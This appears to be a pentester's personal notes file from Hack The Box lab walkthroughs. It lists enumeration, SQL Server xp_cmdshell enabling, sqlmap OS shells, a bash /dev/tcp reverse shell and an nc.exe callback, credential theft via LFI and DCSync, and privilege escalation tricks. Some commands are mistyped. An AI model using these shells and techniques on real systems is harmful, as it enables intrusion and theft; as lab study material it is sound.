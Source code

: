 Intended to capture observations during the walkthroughs for processes to apply or things to  remember when coming across certain steps during information gathering.

# Archetype
- If you see SMB, see if anonymous access is granted
    - `smbclient -N -L \\\\IP_ADDR\\`
    - If any are interesting, try to connect with `smbclient -N \\\IP_ADDR\shared_drive_name`

## `nmap`
Clever way to filter out the ports to analyze in greater detail:
```
ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)nmap -sC-sV-p$ports10.10.10.27
```

## SQL
`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')` run once authenticated to SQL DB to reveal whether current user has sysadmin privs
- Can enaable `xp_cmdshell`, with the following script:
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
xp_cmdshell "whoami";
```

## Powershell
Powershell history file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.tx`

# Vaccine
Use `zip2john` to brute force attack password protected Zip files

Use www.cractstation.net for rainbow tables for known passwords

## SQL
- If using `sqlmap` and attacking a postgreSQL DB, use `--os-shell` to attempt to get shell
- If you have OS Shell, run `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'` to get reverse shell (requires `nc` listener)

# Shield
- `gobuster` is an alternative to brute force open directories for a web app
- Can use `wp_admin_shell_upload` to get a meterpreter shell
- Upload the `nc.exe` executable and then execute it with `execute -f nc.exe -a "-e cmd.exe IP_ADDR LIST_PORT"`
- `JuicyPotato` to escalate privs

# Pathfinder
- `masscan` to determine open ports faster
- `bloodhound python` generates the files necessary to ingest into the `bloodhound` app
- `GetChangesAll` privileges within a domain can request replication data from a DC aka collect user hashes
- If Kerberos pre-auth is disabled, it's vulnerable to ASREPRoasting (https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

# Included
- Check with `udp` scan for nmap if nothing too fruitful, can show tftp (port 69/udp)
- Vulnerable to directory traversal
- Pentest Monkey Reverse Shell Script: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- LXD Group = high privileged linux Group, which can be used to escalate to root

# Markup
- When there's LFI, and `ssh` enabled, look for private keys (`~/.ssh/id_rsa`) to gain access
- Use `icacls` on Win to look at permission
- Windows `exe`s are available in Kali under `/usr/share/windows-binaries`

# Guard
- escape permissions limitations with `man man` then `!bash`
- `/var/backups` location to check when enumerating the system
- `hashcat -m 1800` = unix passwords

# Base
- The developer is using `strcmp` to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if `strcmp` is given an empty array to compare against the stored password, it will return `null`. In PHP the `==` operator only checks the value of a variable for equality, and the value of `NULL` is equal to `0`. The correct way to write this would be with the `===` operator which checks both value and type. Let's open burp and catch the login request.
- Locationf of webshells on kali `/usr/share/webshells`
- If website is running on Linux - Enumeration tactic: `/var/www/html/login`